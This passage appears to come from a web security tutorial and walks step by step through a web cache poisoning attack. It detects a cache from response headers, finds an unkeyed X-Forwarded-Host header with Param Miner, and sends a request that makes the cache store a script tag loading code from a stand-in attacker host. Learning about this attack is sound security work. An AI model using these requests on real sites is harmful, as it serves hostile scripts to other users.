 In this scenario, we have an application running behind a cache server. The application serves a news article based on the `id` parameter, as seen in the URL `/news/show.php?id=1`.

The attacker's goal is to poison the cache server to serve malicious content to other users when they request the same article (in this case, with `id=2`). They achieve this by manipulating an unkeyed input, which in this example is the `X-Forwarded-Host header`.

**Step 1**: Identify if the application uses a cache server or not, The response headers indicate that the application uses a cache server:

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=3000
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10941

```

Here, the `Cache-Control`, `Age`, and `X-Cache` headers suggest the presence of a cache server.

**Step 2**: Scan various requests using Param Miner and identify an unkeyed input

The attacker uses the Param Miner extension in Burp Suite to brute-force various headers, cookies, and parameters, looking for an unkeyed input. The `X-Forwarded-Host` header is identified as an unkeyed input that can be manipulated to change the application's behavior.

**Step 3**: Exploit the vulnerability manually, The attacker crafts a malicious request with a modified X-Forwarded-Host header:

```html
GET /news/show.php?id=2 HTTP/1.1
Host: example.com
X-Forwarded-Host: attacker.com
Connection: close

```

Since the `X-Forwarded-Host` header is unkeyed, the cache server considers the request as unique and stores the response from the backend server in its cache. The stored response contains the attacker's injected script tag:

```html

src='//attacker.com/static/js/news.js'>

```

Now, when a victim requests the same article (`id=2`), the cache server serves the poisoned response containing the attacker's script tag, potentially leading to a Cross-Site Scripting (XSS) attack or other malicious behavior.



### Web Cache Deception
